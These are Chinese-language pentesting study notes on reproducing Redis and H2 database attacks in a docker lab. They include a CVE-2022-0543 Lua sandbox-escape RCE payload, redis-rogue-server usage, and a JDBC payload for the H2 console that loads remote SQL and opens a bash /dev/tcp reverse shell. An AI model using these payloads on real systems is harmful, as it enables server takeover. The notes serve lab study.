










# 服务攻防-数据库安全&Redis&CouchDB&H2database&未授权访问&CVE漏洞

1、复现环境：Vulfocus(官方在线的无法使用)

官方手册：https://fofapro.github.io/vulfocus/#/

搭建踩坑：（无法同步）

https://blog.csdn.net/m0_64563956/article/details/131229046

启动命令

```
docker run -p 80:80 -v /var/run/docker.sock:/var/run/docker.sock -e VUL_IP=0.0.0.0 vulfocus/vulfocus
```

## \#数据库应用-Redis-未授权访问&CVE漏洞

默认端口：6379 ==这个端口的一般都是Redis==

Redis是一套开源的使用ANSI C编写、支持网络、可基于内存亦可持久化的日志型、键值存储数据库，并提供多种语言的API。Redis如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问Redis以及读取Redis的数据。

1、沙箱绕过RCE-CVE-2022-0543

Poc：执行id命令

```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```


把id修改成pwd

```
val 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("pwd", "r"); local res = f:read("*a"); f:close(); return res' 0
```



dooker 非物理真实环境






-自动化项目：

https://github.com/n0b0dyCN/redis-rogue-server

python redis-rogue-server.py --rhost 目标IP --rport 目标端口 --lhost IP

两种模式 交互式 /反弹式





## 未授权访问-CNVD-2019-21763

修改成目标主机IP和端口



在攻击机上开启监听



执行



成功攻击




## 数据库应用-H2database--未授权访问&CVE漏洞



1、未授权进入： 写如JDBC URL中

jdbc:h2:mem:test1;FORBID_CREATION=FALSE;IGNORE_UNKNOWN_SETTINGS=TRUE;FORBID_CREATION=FALSE;\


2、RCE执行反弹：

-创建数据库文件：h2database.sql

CREATE TABLE test (

   id INT NOT NULL

 );

CREATE TRIGGER TRIG_JS BEFORE INSERT ON TEST AS '//javascript

Java.type("java.lang.Runtime").getRuntime().exec("bash -c {echo,base64加密的反弹shell指令}|{base64,-d}|{bash,-i}");';

\#反弹指令示例：bash -i >& /dev/tcp/x.x.x.x/6666 0>&1

 

-启动提供SQL文件远程加载服务

python3 -m http.server 端口

 

-填入Payload使其加载远程SQL

jdbc:h2:mem:test1;FORBID_CREATION=FALSE;IGNORE_UNKNOWN_SETTINGS=TRUE;FORBID_CREATION=FALSE;INIT=RUNSCRIPT FROM 'http://搭建的IP:端口/h2database.sql';\

nc -lvvp xxxx